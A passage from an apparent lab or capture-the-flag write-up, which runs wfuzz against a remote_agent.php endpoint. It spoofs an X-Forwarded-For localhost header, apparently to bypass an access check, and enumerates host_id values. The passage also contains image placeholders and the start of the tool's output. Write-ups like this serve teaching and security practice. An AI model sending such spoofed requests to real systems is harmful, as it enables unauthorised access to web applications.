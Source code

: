![](/img/image-20230429174057033.png)

The the result comes back:

![](/img/image-20230429174124397.png)

I'll use `wfuzz` to experiment with different values in
`local_data_ids[0]` and `host_id`. The default response is just `[]`, so
I'll use `--hh 2` to filter out two character responses. If I fuzz the
`host_id`, only "1" has data:



    oxdf@hacky$ wfuzz -u 'http://10.10.11.211/remote_agent.php?action=polldata&local_data_ids[0]=1&host_id=FUZZ&poller_id=1' -H "X-Forwarded-For: 127.0.0.1" -z range,1-100 --hh 2
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************

    Target: http://10.10.11.211/remote_agent.php?action=polldata&local_data_ids[0]=1&host_id=FUZZ&poller_id=1
    Total requests: 100
